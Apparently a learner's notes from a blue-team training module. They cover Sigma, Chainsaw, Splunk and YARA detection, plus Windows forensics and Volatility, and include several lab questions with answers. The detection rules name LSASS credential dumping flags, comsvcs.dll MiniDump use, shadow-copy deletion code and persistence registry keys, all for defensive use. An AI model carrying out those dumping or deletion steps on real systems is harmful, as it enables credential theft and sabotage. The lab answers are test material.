Sigma is a generic signature format used for describing detection rules for log analysis and SIEM systems. Sigma rules are typically written in YAML format and can be used with various security tools and platforms.
pySigma is increasingly becoming the go-to option for rule translation, as sigmac is now considered obsolete.
Sigma Rule Structure:
log source guide: https://github.com/SigmaHQ/sigma/tree/master/documentation/logsource-guides
Developing Sigma Rules
Manually Developing a Sigma Rule
Example 1: LSASS Credential Dumping
# sigma rule
title: LSASS Access with rare GrantedAccess flag
status: experimental
description: This rule will detect when a process tries to access LSASS memory with suspicious access flag 0x1010
date: 2023/07/08
tags:
- attack.credential_access
- attack.t1003.001
logsource:
category: process_access
product: windows
detection:
selection:
TargetImage|endswith: '\lsass.exe'
GrantedAccess|endswith: '0x1010'
condition: selection
0x1010 hexadecimal flag essentially combines PROCESS_VM_READ (0x0010) and PROCESS_QUERY_INFORMATION (0x0400) permissions. To translate that: the process is asking for read access to the virtual memory of LSASS and the ability to query certain information from the process. While 0x0410 is the most common GrantedAccess flag used for reading LSASS memory, 0x1010 implies both reading and querying information from the process and is also frequently observed during credential dumping attacks.
The condition part specifies that the selection criteria must be met for the rule to trigger an alert. In this case, both the TargetImage and GrantedAccess criteria must be met.
python sigmac -t powershell 'C:\Rules\sigma\proc_access_win_lsass_access.yml'
Get-WinEvent | where {($_.ID -eq "10" -and $_.message -match "TargetImage.*.*\\lsass.exe" -and $_.message -match "GrantedAccess.*.*0x1010") } | select TimeCreated,Id,RecordId,ProcessId,MachineName,Message
Get-WinEvent -Path C:\Events\YARASigma\lab_events.evtx | where {($_.ID -eq "10" -and $_.message -match "TargetImage.*.*\\lsass.exe" -and $_.message -match "GrantedAccess.*.*0x1010") } | select TimeCreated,Id,RecordId,ProcessId,MachineName,Message
But let's not stop there - remember, false positives are the enemy of effective security monitoring.
We should also cross-reference the SourceImage (the process initiating the access) against a list of known, safe processes that commonly interact with LSASS.
If we see an unfamiliar or unusual process trying to read LSASS with a GrantedAccess that ends with 10, 30, 50, 70, 90, B0, D0, F0, 18, 38, 58, 78, 98, B8, D8, F8, 1A, 3A, 5A, 7A, 9A, BA, DA, FA, 0x14C2, and FF (these suffixes come from studying the GrantedAccess values that various LSASS credential dumping techniques require), that's a red flag, and our incident response protocol should kick in.
Especially, if the SourceImage resides in suspicious paths containing, \Temp\, \Users\Public\, \PerfLogs\, \AppData\, \htb\ etc. that's another red flag, and our incident response protocol should kick in.
A more robust version of the Sigma rule we created taking the above points into consideration can be found inside the C:\Rules\sigma directory of this section's target as proc_access_win_lsass_access_robust.yml
title: LSASS Access From Program in Potentially Suspicious Folder
id: fa34b441-961a-42fa-a100-ecc28c886725
status: experimental
description: Detects process access to LSASS memory with suspicious access flags and from a potentially suspicious folder
references:
- https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights
- https://onedrive.live.com/view.aspx?resid=D026B4699190F1E6!2843&ithint=file%2cpptx&app=PowerPoint&authkey=!AMvCRTKB_V1J5ow
- https://web.archive.org/web/20230208123920/https://cyberwardog.blogspot.com/2017/03/chronicles-of-threat-hunter-hunting-for_22.html
- https://www.slideshare.net/heirhabarov/hunting-for-credentials-dumping-in-windows-environment
- http://security-research.dyndns.org/pub/slides/FIRST2017/FIRST-2017_Tom-Ueltschi_Sysmon_FINAL_notes.pdf
author: Florian Roth (Nextron Systems)
date: 2021/11/27
modified: 2023/05/05
tags:
- attack.credential_access
- attack.t1003.001
- attack.s0002
logsource:
category: process_access
product: windows
detection:
selection:
TargetImage|endswith: '\lsass.exe'
GrantedAccess|endswith:
- '10'
- '30'
- '50'
- '70'
- '90'
- 'B0'
- 'D0'
- 'F0'
- '18'
- '38'
- '58'
- '78'
- '98'
- 'B8'
- 'D8'
- 'F8'
- '1A'
- '3A'
- '5A'
- '7A'
- '9A'
- 'BA'
- 'DA'
- 'FA'
- '0x14C2' # https://github.com/b4rtik/ATPMiniDump/blob/76304f93b390af3bb66e4f451ca16562a479bdc9/ATPMiniDump/ATPMiniDump.c
- 'FF'
SourceImage|contains:
- '\Temp\'
- '\Users\Public\'
- '\PerfLogs\'
- '\AppData\'
- '\htb\'
filter_optional_generic_appdata:
SourceImage|startswith: 'C:\Users\'
SourceImage|contains: '\AppData\Local\'
SourceImage|endswith:
- '\Microsoft VS Code\Code.exe'
- '\software_reporter_tool.exe'
- '\DropboxUpdate.exe'
- '\MBAMInstallerService.exe'
- '\WebexMTA.exe'
- '\WebEx\WebexHost.exe'
- '\JetBrains\Toolbox\bin\jetbrains-toolbox.exe'
GrantedAccess: '0x410'
filter_optional_dropbox_1:
SourceImage|startswith: 'C:\Windows\Temp\'
SourceImage|endswith: '.tmp\DropboxUpdate.exe'
GrantedAccess:
- '0x410'
- '0x1410'
filter_optional_dropbox_2:
SourceImage|startswith: 'C:\Users\'
SourceImage|contains: '\AppData\Local\Temp\'
SourceImage|endswith: '.tmp\DropboxUpdate.exe'
GrantedAccess: '0x1410'
filter_optional_dropbox_3:
SourceImage|startswith:
- 'C:\Program Files (x86)\Dropbox\'
- 'C:\Program Files\Dropbox\'
SourceImage|endswith: '\DropboxUpdate.exe'
GrantedAccess: '0x1410'
filter_optional_nextron:
SourceImage|startswith:
- 'C:\Windows\Temp\asgard2-agent\'
- 'C:\Windows\Temp\asgard2-agent-sc\'
SourceImage|endswith:
- '\thor64.exe'
- '\thor.exe'
- '\aurora-agent-64.exe'
- '\aurora-agent.exe'
GrantedAccess:
- '0x1fffff'
- '0x1010'
- '0x101010'
filter_optional_ms_products:
SourceImage|startswith: 'C:\Users\'
SourceImage|contains|all:
- '\AppData\Local\Temp\'
- '\vs_bootstrapper_'
GrantedAccess: '0x1410'
filter_optional_chrome_update:
SourceImage|startswith: 'C:\Program Files (x86)\Google\Temp\'
SourceImage|endswith: '.tmp\GoogleUpdate.exe'
GrantedAccess:
- '0x410'
- '0x1410'
filter_optional_keybase:
SourceImage|startswith: 'C:\Users\'
SourceImage|endswith: \AppData\Local\Keybase\keybase.exe
GrantedAccess: '0x1fffff'
filter_optional_avira:
SourceImage|contains: '\AppData\Local\Temp\is-'
SourceImage|endswith: '.tmp\avira_system_speedup.tmp'
GrantedAccess: '0x1410'
filter_optional_viberpc_updater:
SourceImage|startswith: 'C:\Users\'
SourceImage|contains: '\AppData\Roaming\ViberPC\'
SourceImage|endswith: '\updater.exe'
TargetImage|endswith: '\winlogon.exe'
GrantedAccess: '0x1fffff'
filter_optional_adobe_arm_helper:
SourceImage|startswith: # Example path: 'C:\Program Files (x86)\Common Files\Adobe\ARM\1.0\Temp\2092867405\AdobeARMHelper.exe'
- 'C:\Program Files\Common Files\Adobe\ARM\'
- 'C:\Program Files (x86)\Common Files\Adobe\ARM\'
SourceImage|endswith: '\AdobeARMHelper.exe'
GrantedAccess: '0x1410'
condition: selection and not 1 of filter_optional_*
fields:
- User
- SourceImage
- GrantedAccess
falsepositives:
- Updaters and installers are typical false positives. Apply custom filters depending on your environment
level: medium
Notice how the condition filters out false positives (selection and not 1 of filter_optional_*).
Example 2: Multiple Failed Logins From Single Source (Based on Event 4776)
title: Failed NTLM Logins with Different Accounts from Single Source System
id: 6309ffc4-8fa2-47cf-96b8-a2f72e58e538
related:
- id: e98374a6-e2d9-4076-9b5c-11bdb2569995
type: derived
status: unsupported
description: Detects suspicious failed logins with different user accounts from a single source system
author: Florian Roth (Nextron Systems)
date: 2017/01/10
modified: 2023/02/24
tags:
- attack.persistence
- attack.privilege_escalation
- attack.t1078
logsource:
product: windows
service: security
detection:
selection2:
EventID: 4776
TargetUserName: '*'
Workstation: '*'
condition: selection2 | count(TargetUserName) by Workstation > 3
falsepositives:
- Terminal servers
- Jump servers
- Other multiuser systems like Citrix server farms
- Workstations with frequently changing users
level: medium
Sigma Rule Development Resources
As you can imagine, the best Sigma rule development resource is the official documentation, which can be found at the following links.
https://github.com/SigmaHQ/sigma/wiki/Rule-Creation-Guide https://github.com/SigmaHQ/sigma-specification
The following series of articles is the next best resource on Sigma rule developement.
https://tech-en.netlify.app/articles/en510480/ https://tech-en.netlify.app/articles/en513032/ https://tech-en.netlify.app/articles/en515532/
Q: Using sigmac translate the "C:\Tools\chainsaw\sigma\rules\windows\builtin\windefend\win_defender_threat.yml" Sigma rule into the equivalent PowerShell command. Then, execute the PowerShell command against "C:\Events\YARASigma\lab_events_4.evtx" and enter the malicious driver as your answer. Answer format: _.sys
PS C:\Tools\sigma-0.21\tools> python sigmac -t powershell 'C:\Tools\chainsaw\sigma\rules\windows\builtin\windefend\win_defender_threat.yml'
Get-WinEvent | where {($_.ID -eq "1006" -or $_.ID -eq "1116" -or $_.ID -eq "1015" -or $_.ID -eq "1117") } | select TimeCreated,Id,RecordId,ProcessId,MachineName,Message
Get-WinEvent -Path C:\Events\YARASigma\lab_events_4.evtx | where {($_.ID -eq "1006" -or $_.ID -eq "1116" -or $_.ID -eq "1015" -or $_.ID -eq "1117") } | select TimeCreated,Id,RecordId,ProcessId,MachineName,Message
Hunting Evil with Sigma (Chainsaw Edition)
Sigma rules combined with tools like Chainsaw and Zircolite are our best allies.
Scanning Windows Event Logs With Chainsaw
Using the -s parameter, we can specify a directory containing Sigma detection rules (or one Sigma detection rule) and Chainsaw will automatically load, convert and run these rules against the provided event logs. The mapping file (specified through the--mapping parameter) tells Chainsaw which fields in the event logs to use for rule matching.
PS C:\Tools\chainsaw> .\chainsaw_x86_64-pc-windows-msvc.exe -h
# Example 1: Hunting for Multiple Failed Logins From Single Source With Sigma
> .\chainsaw_x86_64-pc-windows-msvc.exe hunt C:\Events\YARASigma\lab_events_2.evtx -s C:\Rules\sigma\win_security_susp_failed_logons_single_source2.yml --mapping .\mappings\sigma-event-logs-all.yml
Example 2: Hunting for Abnormal PowerShell Command Line Size With Sigma (Based on Event ID 4688)
# proc_creation_win_powershell_abnormal_commandline_size.yml
title: Unusually Long PowerShell CommandLine
id: d0d28567-4b9a-45e2-8bbc-fb1b66a1f7f6
status: test
description: Detects unusually long PowerShell command lines with a length of 1000 characters or more
references:
- https://speakerdeck.com/heirhabarov/hunting-for-powershell-abuse
author: oscd.community, Natalia Shornikova / HTB Academy, Dimitrios Bougioukas
date: 2020/10/06
modified: 2023/04/14
tags:
- attack.execution
- attack.t1059.001
- detection.threat_hunting
logsource:
category: process_creation
product: windows
detection:
selection:
EventID: 4688
NewProcessName|endswith:
- '\powershell.exe'
- '\pwsh.exe'
- '\cmd.exe'
selection_powershell:
CommandLine|contains:
- 'powershell.exe'
- 'pwsh.exe'
selection_length:
CommandLine|re: '.{1000,}'
condition: selection and selection_powershell and selection_length
falsepositives:
- Unknown
level: low
.\chainsaw_x86_64-pc-windows-msvc.exe hunt C:\Events\YARASigma\lab_events_3.evtx -s C:\Rules\sigma\proc_creation_win_powershell_abnormal_commandline_size.yml --mapping .\mappings\sigma-event-logs-all.yml
# introduced the NewProcessName field into a sigma-event-logs-all-new.yml mapping file inside the C:\Tools\chainsaw\mappings directory of this section's target.
.\chainsaw_x86_64-pc-windows-msvc.exe hunt C:\Events\YARASigma\lab_events_3.evtx -s C:\Rules\sigma\proc_creation_win_powershell_abnormal_commandline_size.yml --mapping .\mappings\sigma-event-logs-all-new.yml
........
groups:
- name: Sigma
timestamp: Event.System.TimeCreated
filter:
Provider: "*"
fields:
..............
- from: NewProcessName
to: Event.EventData.NewProcessName
visible: false
...............
Q: Use Chainsaw with the "C:\Tools\chainsaw\sigma\rules\windows\powershell\powershell_script\posh_ps_win_defender_exclusions_added.yml" Sigma rule to hunt for suspicious Defender exclusions inside "C:\Events\YARASigma\lab_events_5.evtx". Enter the excluded directory as your answer.
# posh_ps_win_defender_exclusions_added.yml
title: Windows Defender Exclusions Added - PowerShell
id: c1344fa2-323b-4d2e-9176-84b4d4821c88
related:
- id: 17769c90-230e-488b-a463-e05c08e9d48f
type: similar
status: experimental
description: Detects modifications to the Windows Defender configuration settings using PowerShell to add exclusions
references:
- https://www.elastic.co/guide/en/security/current/windows-defender-exclusions-added-via-powershell.html
author: Tim Rauch
date: 2022/09/16
modified: 2022/11/26
tags:
- attack.defense_evasion
- attack.t1562
- attack.execution
- attack.t1059
logsource:
category: ps_script
product: windows
definition: 'Requirements: Script Block Logging must be enabled'
detection:
selection_args_exc:
ScriptBlockText|contains:
- ' -ExclusionPath '
- ' -ExclusionExtension '
- ' -ExclusionProcess '
- ' -ExclusionIpAddress '
selection_args_pref:
ScriptBlockText|contains:
- 'Add-MpPreference '
- 'Set-MpPreference '
condition: all of selection*
falsepositives:
- Unknown
level: medium
.\chainsaw_x86_64-pc-windows-msvc.exe hunt C:\Events\YARASigma\lab_events_5.evtx -s C:\Tools\chainsaw\sigma\rules\windows\powershell\powershell_script\posh_ps_win_defender_exclusions_added.yml --mapping .\mappings\sigma-event-logs-all-new.yml
c:\document\virus\
Hunting Evil with Sigma (Splunk Edition)
Example 1: Hunting for MiniDump Function Abuse to Dump LSASS's Memory (comsvcs.dll via rundll32)
# proc_access_win_lsass_dump_comsvcs_dll.yml
title: Lsass Memory Dump via Comsvcs DLL
id: a49fa4d5-11db-418c-8473-1e014a8dd462
status: test
description: Detects adversaries leveraging the MiniDump export function from comsvcs.dll via rundll32 to perform a memory dump from lsass.
references:
- https://twitter.com/shantanukhande/status/1229348874298388484
- https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
author: Roberto Rodriguez (Cyb3rWard0g), OTR (Open Threat Research)
date: 2020/10/20
modified: 2022/10/09
tags:
- attack.credential_access
- attack.t1003.001
logsource:
category: process_access
product: windows
detection:
selection:
TargetImage|endswith: '\lsass.exe'
SourceImage: 'C:\Windows\System32\rundll32.exe'
CallTrace|contains: 'comsvcs.dll'
condition: selection
falsepositives:
- Unknown
level: critical
PS C:\Tools\sigma-0.21\tools> python sigmac -t splunk C:\Tools\chainsaw\sigma\rules\windows\process_access\proc_access_win_lsass_dump_comsvcs_dll.yml -c .\config\splunk-windows.yml
(TargetImage="*\\lsass.exe" SourceImage="C:\\Windows\\System32\\rundll32.exe" CallTrace="*comsvcs.dll*")
Example 2: Hunting for Notepad Spawning Suspicious Child Process
# proc_creation_win_notepad_susp_child.yml
title: Notepad Calling Suspicious Child Process
id: dcddc6ad-dbfb-40eb-82ca-d431a52e99bf
status: experimental
description: Detects notepad.exe spawning a suspicious child process
author: Dimitrios Bougioukas
date: 2023/31/08
modified: 2023/31/08
tags:
- attack.defense_evasion
- attack.t1036
- attack.t1218
logsource:
category: process_creation
product: windows
detection:
selection:
ParentImage|endswith: '\notepad.exe'
Image|endswith:
# Add more suspicious LOLBins
- '\powershell.exe'
- '\pwsh.exe'
- '\cmd.exe'
- '\mshta.exe'
- '\cscript.exe'
- '\wscript.exe'
- '\taskkill.exe'
- '\regsvr32.exe'
- '\rundll32.exe'
# - '\csc.exe' # https://app.any.run/tasks/f420d295-0457-4e9b-9b9e-6732be227583/
- '\calc.exe' # https://app.any.run/tasks/f420d295-0457-4e9b-9b9e-6732be227583/
condition: selection
falsepositives:
- Unknown
level: high
python sigmac -t splunk C:\Rules\sigma\proc_creation_win_notepad_susp_child.yml -c .\config\splunk-windows.yml
(ParentImage="*\\notepad.exe" (Image="*\\powershell.exe" OR Image="*\\pwsh.exe" OR Image="*\\cmd.exe" OR Image="*\\mshta.exe" OR Image="*\\cscript.exe" OR Image="*\\wscript.exe" OR Image="*\\taskkill.exe" OR Image="*\\regsvr32.exe" OR Image="*\\rundll32.exe" OR Image="*\\calc.exe"))
Q: Using sigmac translate the "C:\Rules\sigma\file_event_win_app_dropping_archive.yml" Sigma rule into the equivalent Splunk search. Then, navigate to http://[Target IP]:8000, open the "Search & Reporting" application, and submit the Splunk search sigmac provided. Enter the TargetFilename value of the returned event as your answer.
python sigmac -t splunk C:\Rules\sigma\file_event_win_app_dropping_archive.yml -c .\config\splunk-windows.yml
((Image="*\\winword.exe" OR Image="*\\excel.exe" OR Image="*\\powerpnt.exe" OR Image="*\\msaccess.exe" OR Image="*\\mspub.exe" OR Image="*\\eqnedt32.exe" OR Image="*\\visio.exe" OR Image="*\\wordpad.exe" OR Image="*\\wordview.exe" OR Image="*\\certutil.exe" OR Image="*\\certoc.exe" OR Image="*\\CertReq.exe" OR Image="*\\Desktopimgdownldr.exe" OR Image="*\\esentutl.exe" OR Image="*\\finger.exe" OR Image="*\\notepad.exe" OR Image="*\\AcroRd32.exe" OR Image="*\\RdrCEF.exe" OR Image="*\\mshta.exe" OR Image="*\\hh.exe" OR Image="*\\sharphound.exe") (TargetFilename="*.zip" OR TargetFilename="*.rar" OR TargetFilename="*.7z" OR TargetFilename="*.diagcab" OR TargetFilename="*.appx"))
Skills Assessment
Q1: The "C:\Rules\yara\seatbelt.yar" YARA rule aims to detect instances of the "Seatbelt.exe" .NET assembly on disk. Analyze both "C:\Rules\yara\seatbelt.yar" and "C:\Samples\YARASigma\Seatbelt.exe" and specify the appropriate string inside the "$class2" variable so that the rule successfully identifies "C:\Samples\YARASigma\Seatbelt.exe". Answer format: L__r
# seatbelt.yar
rule seatbelt_detected {
meta:
description = "Rule for detecting Seatbelt"
author = "Dimitrios Bougioukas"
strings:
$class1 = "WMIUtil"
$class2 = "LsaWrapper"
$class3 = "SecurityUtil"
$class4 = "MiscUtil"
$dotnetMagic = "BSJB" ascii
condition:
(uint16(0) == 0x5A4D and uint16(uint32(0x3c)) == 0x4550) and $dotnetMagic and 4 of them
}
Q2: Use Chainsaw with the "C:\Tools\chainsaw\sigma\rules\windows\powershell\powershell_script\posh_ps_susp_win32_shadowcopy.yml" Sigma rule to hunt for shadow volume deletion inside "C:\Events\YARASigma\lab_events_6.evtx". Enter the identified ScriptBlock ID as your answer.
# powershell_script\posh_ps_susp_win32_shadowcopy.yml
title: Delete Volume Shadow Copies via WMI with PowerShell - PS Script
id: e17121b4-ef2a-4418-8a59-12fb1631fa9e
status: test
description: Deletes Windows Volume Shadow Copies with PowerShell code and Get-WMIObject. This technique is used by numerous ransomware families such as Sodinokibi/REvil
references:
- https://github.com/redcanaryco/atomic-red-team/blob/f339e7da7d05f6057fdfcdd3742bfcf365fee2a9/atomics/T1490/T1490.md#atomic-test-5---windows---delete-volume-shadow-copies-via-wmi-with-powershell
author: frack113
date: 2021/12/26
modified: 2022/12/02
tags:
- attack.impact
- attack.t1490
logsource:
product: windows
category: ps_script
definition: 'Requirements: Script Block Logging must be enabled'
detection:
selection:
ScriptBlockText|contains|all:
- 'Get-WmiObject'
- 'Win32_Shadowcopy'
- '.Delete()'
condition: selection
falsepositives:
- Unknown
level: high
.\chainsaw_x86_64-pc-windows-msvc.exe hunt C:\Events\YARASigma\lab_events_6.evtx -s C:\Tools\chainsaw\sigma\rules\windows\powershell\powershell_script\posh_ps_susp_win32_shadowcopy.yml --mapping .\mappings\sigma-event-logs-all-new.yml
Introduction to Digital Forensics
The basic steps for performing a forensic investigation are as follows:
-
Create a Forensic Image
-
Document the System's State
-
Identify and Preserve Evidence
-
Analyze the Evidence
-
Timeline Analysis
-
Identify Indicators of Compromise (IOCs)
-
Report and Documentation
Windows Forensics Overview
NTFS (New Technology File System)
Here are some of the key forensic artifacts that digital investigators often analyze when working with NTFS file systems:
File Metadata: NTFS stores extensive metadata for each file, including creation time, modification time, access time, and attribute information (such as read-only, hidden, or system file attributes). Analyzing these timestamps can help establish timelines and reconstruct user activities.
MFT Entries: The Master File Table (MFT) is a crucial component of NTFS that stores metadata for all files and directories on a volume. Examining MFT entries provides insights into file names, sizes, timestamps, and data storage locations. When files are deleted, their MFT entries are marked as available, but the data may remain on the disk until overwritten.
File Slack and Unallocated Space: Unallocated space on an NTFS volume may contain remnants of deleted files or fragments of data. File slack refers to the unused portion of a cluster that may contain data from a previous file. Digital forensic tools can help recover and analyze data from these areas.
File Signatures: File headers and signatures can be useful in identifying file types even when file extensions have been changed or obscured. This information is critical for reconstructing the types of files present on a system.
USN Journal: The Update Sequence Number (USN) Journal is a log maintained by NTFS to record changes made to files and directories. Forensic investigators can analyze the USN Journal to track file modifications, deletions, and renames.
LNK Files: Windows shortcut files (LNK files) contain information about the target file or program, as well as timestamps and metadata. These files can provide insights into recently accessed files or executed programs.
Prefetch Files: Prefetch files are generated by Windows to improve the startup performance of applications. These files can indicate which programs have been run on the system and when they were last executed.
Registry Hives: While not directly related to the file system, Windows Registry hives contain important configuration and system information. Malicious activities or unauthorized changes can leave traces in the registry, which forensic investigators analyze to understand system modifications.
Shellbags: Shellbags are registry entries that store folder view settings, such as window positions and sorting preferences. Analyzing shellbags can reveal user navigation patterns and potentially identify accessed folders.
Thumbnail Cache: Thumbnail caches store miniature previews of images and documents. These caches can reveal files that were recently viewed, even if the original files have been deleted.
Recycle Bin: The Recycle Bin contains files that have been deleted from the file system. Analyzing the Recycle Bin can help recover deleted files and provide insights into user actions.
Alternate Data Streams (ADS): ADS are additional streams of data associated with files. Malicious actors may use ADS to hide data, and forensic investigators need to examine these streams to ensure a comprehensive analysis.
Volume Shadow Copies: NTFS supports Volume Shadow Copies, which are snapshots of the file system at different points in time. These copies can be valuable for data recovery and analysis of changes made over time.
Security Descriptors and ACLs: Access Control Lists (ACLs) and security descriptors determine file and folder permissions. Analyzing these artifacts helps understand user access rights and potential security breaches.
| Artifact | Location/Registry Key | Data Stored |
|---|---|---|
| Prefetch Files | C:\Windows\Prefetch | Metadata about executed applications (file paths, timestamps, execution count) |
| Shimcache | Registry: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\AppCompatCache | Program execution details (file paths, timestamps, flags) |
| Amcache | C:\Windows\AppCompat\Programs\Amcache.hve (Binary Registry Hive) | Application details (file paths, sizes, digital signatures, timestamps) |
| UserAssist | Registry: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist | Executed program details (application names, execution counts, timestamps) |
| RunMRU Lists | Registry: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU | Recently executed programs and their command lines |
| Jump Lists | User-specific folders (e.g., %AppData%\Microsoft\Windows\Recent) | Recently accessed files, folders, and tasks associated with applications |
| Shortcut (LNK) Files | Various locations (e.g., Desktop, Start Menu) | Target executable, file paths, timestamps, user interactions |
| Recent Items | User-specific folders (e.g., %AppData%\Microsoft\Windows\Recent) | Recently accessed files |
| Windows Event Logs | C:\Windows\System32\winevt\Logs | Various event logs containing process creation, termination, and other events |
The Windows Registry acts as a crucial database, storing critical system settings for the Windows OS.
Example of Autorun keys used for persistence:
Run/RunOnce Keys
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\
Keys used by WinLogon Process
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
Startup Keys
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User
SRUM
Switching gears to SRUM (System Resource Usage Monitor), it's a feature introduced in Windows 8 and subsequent versions.
Evidence Acquisition Techniques & Tools
Here's an overview of evidence acquisition techniques commonly used in digital forensics:
Forensic Imaging
Extracting Host-based Evidence & Rapid Triage
Extracting Network Evidence
Forensic Imaging
Below are some forensic imaging tools and solutions:
-
FTK Imager: Developed by AccessData (now acquired by Exterro), FTK Imager is one of the most widely used disk imaging tools in the cybersecurity field. It allows us to create perfect copies (or images) of computer disks for analysis, preserving the integrity of the evidence. It also lets us view and analyze the contents of data storage devices without altering the data.
-
AFF4 Imager: A free, open-source tool crafted for creating and duplicating forensic disk images. It's user-friendly and compatible with numerous file systems. A benefit of the AFF4 Imager is its capability to extract files based on their creation time, segment volumes, and reduce the time taken for imaging through compression.
-
DD and DCFLDD: Both are command-line utilities available on Unix-based systems (including Linux and MacOS). DD is a versatile tool included in most Unix-based systems by default, while DCFLDD is an enhanced version of DD with features specifically useful for forensics, such as hashing.
-
Virtualization Tools: Given the prevalent use of virtualization in modern systems, incident responders will often need to collect evidence from virtual environments. Depending on the specific virtualization solution, evidence can be gathered by temporarily halting the system and transferring the directory that houses it. Another method is to utilize the snapshot capability present in numerous virtualization software tools.
Utilizing Arsenal Image Mounter to mount a disk image we have previously created (not the one mentioned above) from a compromised Virtual Machine (VM) running on VMWare. The virtual hard disk of the VM has been stored as HTBVM01-000003.vmdk.
Extracting Host-based Evidence & Rapid Triage
- Host-based Evidence
To capture memory, tools like FTK Imager are commonly employed.
Some other memory acquisition solutions are:
WinPmem: WinPmem has been the default open source memory acquisition driver for windows for a long time. It used to live in the Rekall project, but has recently been separated into its own repository.
DumpIt: A simplistic utility that generates a physical memory dump of Windows and Linux machines. On Windows, it concatenates 32-bit and 64-bit system physical memory into a single output file, making it extremely easy to use.
MemDump: MemDump is a free, straightforward command-line utility that enables us to capture the contents of a system's RAM. Its quite beneficial in forensics investigations or when analyzing a system for malicious activity. Its simplicity and ease of use make it a popular choice for memory acquisition.
Belkasoft RAM Capturer: This is another powerful tool we can use for memory acquisition, provided free of charge by Belkasoft. It can capture the RAM of a running Windows computer, even if there's active anti-debugging or anti-dumping protection. This makes it a highly effective tool for extracting as much data as possible during a live forensics investigation.
Magnet RAM Capture: Developed by Magnet Forensics, this tool provides a free and simple way to capture the volatile memory of a system.
LiME (Linux Memory Extractor): LiME is a Loadable Kernel Module (LKM) which allows the acquisition of volatile memory. LiME is unique in that it's designed to be transparent to the target system, evading many common anti-forensic measures.
- Rapid Triage
This approach emphasizes collecting data from potentially compromised systems. The goal is to centralize high-value data, streamlining its indexing and analysis. By centralizing this data, analysts can more effectively deploy tools and techniques, honing in on systems with the most evidentiary value. This targeted approach allows for a deeper dive into digital forensics, offering a clearer picture of the adversary's actions.
One of the best, if not the best, rapid artifact parsing and extraction solutions is KAPE (Kroll Artifact Parser and Extractor).
Velociraptor is a potent tool for gathering host-based information using Velociraptor Query Language (VQL) queries. Beyond this, Velociraptor can execute Hunts to amass various artifacts. A frequently utilized artifact is the Windows.KapeFiles.Targets. While KAPE (Kroll Artifact Parser and Extractor) itself isn't open-source, its file collection logic, encoded in YAML, is accessible via the KapeFiles project. This approach is a staple in Rapid Triage.
Extracting Network Evidence
First up, our Intro to Network Traffic Analysis and Intermediate Network Traffic Analysis modules covered traffic capture analysis. Think of traffic capture as a snapshot of all the digital conversations happening in our network. Tools like Wireshark or tcpdump allow us to capture and dissect these packets, giving us a granular view of data in transit.
Then, our Working with IDS/IPS and Detecting Windows Attacks with Splunk modules covered the usage of IDS/IPS-derived data. Intrusion Detection Systems (IDS) are our watchful sentinels, constantly monitoring network traffic for signs of malicious activity. When they spot something amiss, they alert us. On the other hand, Intrusion Prevention Systems (IPS) take it a step further. Not only do they detect, but they also take pre-defined actions to block or prevent those malicious activities.
Traffic flow data, often sourced from tools like NetFlow or sFlow, provides us with a broader view of our network's behavior. While it might not give us the nitty-gritty details of each packet, it offers a high-level overview of traffic patterns.
Lastly, our trusty firewalls. These are not just barriers that block or allow traffic based on predefined rules. Modern firewalls are intelligent beasts. They can identify applications, users, and even detect and block threats. By analyzing firewall logs, we can uncover attempts to exploit vulnerabilities, unauthorized access attempts, and other malicious activities.
Q: Visit the URL "https://127.0.0.1:8889/app/index.html#/search/all" and log in using the credentials: admin/password. After logging in, click on the circular symbol adjacent to "Client ID". Subsequently, select the displayed "Client ID" and click on "Collected". Initiate a new collection and gather artifacts labeled as "Windows.KapeFiles.Targets" using the _SANS_Triage configuration. Lastly, examine the collected artifacts and enter the name of the scheduled task that begins with 'A' and concludes with 'g' as your answer.
C:\Windows\System32\Tasks
Get-ChildItem -Path "C:\Users\Administrator\Downloads\E-CORP-C.e0967723979c1134-F.CU8021N32BD00\results" -Recurse | Select-String -Pattern "System32\\\\Tasks" | ForEach-Object {
[PSCustomObject]@{
FilePath = $_.Path
LineNumber = $_.LineNumber
LineContent = $_.Line
}
}
AutorunsToWinEventLog
Memory Forensics
Here are some types of data found in RAM that are valuable for incident investigation:
Network connections
File handles and open Files
Open registry keys
Running processes on the system
Loaded modules
Loaded device drivers
Command history and console sessions
Kernel data structures
User and credential information
Malware artifacts
System configuration
Process memory regions
The preferred tool for conducting memory forensics is Volatility. Volatility is a leading open-source memory forensics framework.
Some commonly used Volatility modules include:
pslist: Lists the running processes.
cmdline: Displays process command-line arguments
netscan: Scans for network connections and open ports.
malfind: Scans for potentially malicious code injected into processes.
handles: Scans for open handles
svcscan: Lists Windows services.
dlllist: Lists loaded DLLs (Dynamic-link Libraries) in a process.
hivelist: Lists the registry hives in memory.
Volatility offers extensive documentation. You can find modules and their associated documentation using the following links:
Volatility v2: https://github.com/volatilityfoundation/volatility/wiki/Command-Reference
Volatility v3: https://volatility3.readthedocs.io/en/latest/index.html
A useful Volatility (v2 & v3) cheatsheet can be found here: https://blog.onfvp.com/post/volatility-cheatsheet/
Volatility v2 Fundamentals
- Identifying the Profile
$ vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem imageinfo
- Identifying Running Processes
$ vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 pslist
- Identifying Network Artifacts
